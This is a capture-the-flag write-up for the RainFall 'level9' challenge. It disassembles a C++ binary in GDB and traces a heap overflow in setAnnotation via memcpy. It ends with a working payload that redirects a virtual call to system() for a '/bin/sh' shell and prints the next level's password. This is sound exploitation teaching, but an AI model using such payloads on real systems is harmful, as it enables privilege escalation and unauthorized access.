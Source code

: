 # level9

## exploring the binary
```shell
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 phantom
```
The <code>level9</code> binary runs without any parameters, does not prompt for input, and does not crash if we pass a string to it.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   0x080485f8 <+4>:	and    $0xfffffff0,%esp
   0x080485fb <+7>:	sub    $0x20,%esp
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	movl   $0x1,(%esp)
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	movl   $0x6c,(%esp)
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    %eax,%ebx
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    %eax,%ebx
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)
   0x08048648 <+84>:	mov    %ebx,(%esp)
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)
   0x08048654 <+96>:	mov    0x1c(%esp),%eax
   0x08048658 <+100>:	mov    %eax,0x14(%esp)
   0x0804865c <+104>:	mov    0x18(%esp),%eax
   0x08048660 <+108>:	mov    %eax,0x10(%esp)
   0x08048664 <+112>:	mov    0xc(%ebp),%eax
   0x08048667 <+115>:	add    $0x4,%eax
   0x0804866a <+118>:	mov    (%eax),%eax
   0x0804866c <+120>:	mov    %eax,0x4(%esp)
   0x08048670 <+124>:	mov    0x14(%esp),%eax
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave
   0x08048699 <+165>:	ret
End of assembler dump.
```
We observe that <code>main()</code> contains several hints suggesting we are dealing with a <code>C++</code> binary:
- call to <code>_Znwj@plt</code> indicates a call to the C++ operator <code>new</code>
- function <code>_ZN1NC2Ei()</code> is likely the mangled name of a constructor for a class <code>N</code>
- function <code>_ZN1N13setAnnotationEPc()</code> appears to be a member function <code>setAnnotation</code> of class <code>N</code>, which takes a <code>char*</code> argument

Due to these observations, we decide to check for all functions that are unused by <code>main()</code>:

```shell
All defined functions:

Non-debugging symbols:
0x08048464  _init
0x080484b0  __cxa_atexit
0x080484b0  __cxa_atexit@plt
0x080484c0  __gmon_start__
0x080484c0  __gmon_start__@plt
0x080484d0  std::ios_base::Init::Init()
0x080484d0  _ZNSt8ios_base4InitC1Ev@plt
0x080484e0  __libc_start_main
0x080484e0  __libc_start_main@plt
0x080484f0  _exit
0x080484f0  _exit@plt
0x08048500  _ZNSt8ios_base4InitD1Ev
0x08048500  _ZNSt8ios_base4InitD1Ev@plt
0x08048510  memcpy
0x08048510  memcpy@plt
0x08048520  strlen
0x08048520  strlen@plt
0x08048530  operator new(unsigned int)
0x08048530  _Znwj@plt
0x08048540  _start
0x08048570  __do_global_dtors_aux
0x080485d0  frame_dummy
0x080485f4  main
0x0804869a  __static_initialization_and_destruction_0(int, int)
0x080486da  _GLOBAL__sub_I_main
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
0x08048770  __libc_csu_init
0x080487e0  __libc_csu_fini
0x080487e2  __i686.get_pc_thunk.bx
0x080487f0  __do_global_ctors_aux
0x0804881c  _fini
```
We delve deeper to understand the functionality of <code>_ZN1N13setAnnotationEPc</code>:
```shell
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   0x08048711 <+3>:	sub    $0x18,%esp
   0x08048714 <+6>:	mov    0xc(%ebp),%eax
   0x08048717 <+9>:	mov    %eax,(%esp)
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    0x8(%ebp),%edx
   0x08048722 <+20>:	add    $0x4,%edx
   0x08048725 <+23>:	mov    %eax,0x8(%esp)
   0x08048729 <+27>:	mov    0xc(%ebp),%eax
   0x0804872c <+30>:	mov    %eax,0x4(%esp)
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
```
This function calls <code>strlen()</code> on the second argument and uses <code>memcpy()</code>, making it vulnerable to buffer overflow attack once again.

## buffer overflow
Using the previously described methods, we find that the offset for the overflow of <code>memcpy()</code> is 104. Next, we need to determine the address stored in <code>eax</code> at the method's return call, so we can replace it with the address of <code>system()</code> and subsequently call <code>/bin/sh</code>.

```shell
Reading symbols from /home/user/level9/level9...(no debugging symbols found)...done.
(gdb) b *main+136
Breakpoint 1 at 0x804867c
(gdb) run 'FFFF'
Starting program: /home/user/level9/level9 'FFFF'

Breakpoint 1, 0x0804867c in main ()
(gdb) i reg
eax            0x804a00c	134520844
ecx            0x46464646	1179010630
edx            0x804a00c	134520844
ebx            0x804a078	134520952
esp            0xbffff700	0xbffff700
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0x804867c	0x804867c <main+136>
eflags         0x200283	[ CF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xb7d86060 <system>

```

## exploit
``` shell
level9@RainFall:~$ ./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "F" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
sh: 1:
       : not found
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
